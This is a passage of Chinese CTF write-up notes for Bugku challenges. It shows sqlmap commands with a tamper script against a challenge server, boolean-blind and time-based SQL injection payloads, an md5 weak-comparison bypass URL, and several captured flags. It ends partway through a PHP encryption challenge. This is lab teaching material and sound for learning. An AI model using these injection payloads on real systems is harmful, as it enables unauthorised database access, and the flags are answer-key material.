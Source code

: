 		LOCATE(substr,str), 　　LOCATE(substr,str,pos)
		第一个语法返回字符串str第一次出现的子串substr的位置。
		第二个语法返回第一次出现在字符串str的子串substr的位置，从位置pos开始。 substr不在str中，则返回0。
		flag{Bugku-sql_6s-2i-4t-bug}
	
		sqlmap tamper
		sqlmap 前后缀
		sqlmap.py -u http://120.24.86.145:9004/1ndex.php?id=1 --suffix="%23" --tamper=uniounionn.py
			Parameter: id (GET)
		    Type: boolean-based blind
		    Title: AND boolean-based blind - WHERE or HAVING clause
		    Payload: id=1' AND 5235=5235#
		
		    Type: AND/OR time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind
		    Payload: id=1' AND SLEEP(5)#
	
		C:\Users\admin\.sqlmap\output\120.24.86.145
		sqlmap.py -u http://120.24.86.145:9004/1ndex.php?id=1 --suffix="%23" --tables -D web1002-1 --tamper=uniounionn.py

39. 头等舱
	>60
	>http://120.24.86.145:9009/hd.php

	解答：

		

40. md5 collision(NUPT_CTF) 100
	>http://120.24.86.145:9009/md5.php

		<?php
			$md51 = md5(‘QNKCDZO‘);
			$a = @$_GET[‘a‘];
			$md52 = @md5($a);
			if(isset($a)){
			if ($a != ‘QNKCDZO‘ && $md51 == $md52) {
			    echo "nctf{*****************}";
			} else {
			    echo "false!!!";
			}}
			else{echo "please input a";}
			?>

	php弱类型，md5('QNKCDZO')==md5('240610708')
	http://120.24.86.145:9009/md5.php?a=240610708
	flag{md5_collision_is_easy}
	
41. PHP_encrypt_1(ISCCCTF) 150
	
		<?php
		function encrypt($data,$key)
		{
		    $key = md5('ISCC');
			//729623334f0aa2784a1599fd374c120d
		    $x = 0;
		    $len = strlen($data);
		    $klen = strlen($key);
			$char='';
			$str='';
		    for ($i=0; $i < $len; $i++) { 
		        if ($x == $klen)
		        {
		            $x = 0;
		        }
		        $char .= $key[$x];
		        $x+=1;
		    }